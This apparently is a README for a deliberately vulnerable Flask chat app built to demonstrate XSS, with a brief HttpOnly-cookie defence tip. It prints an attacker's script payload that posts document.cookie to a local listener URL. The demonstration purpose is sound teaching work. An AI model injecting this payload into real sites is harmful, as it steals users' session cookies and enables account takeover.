 # **Vulnerable Chat WebApp with Flask**

Building an vulnerable chat web app with Flask, socket programming to demostrate XSS attacks.


Attacker's injection: `<script>$.ajax({ url : 'http://127.0.0.1:5001/listen', type : 'POST', data : { 'cookie' : document.cookie }, success : function(response) {}, error : function(error) {} })</script>`

A good way to prevent XSS attacks on cookies is to set the `HttpOnly` flag of the cookie. This makes it unavailable to scripting languages like JavaScript.
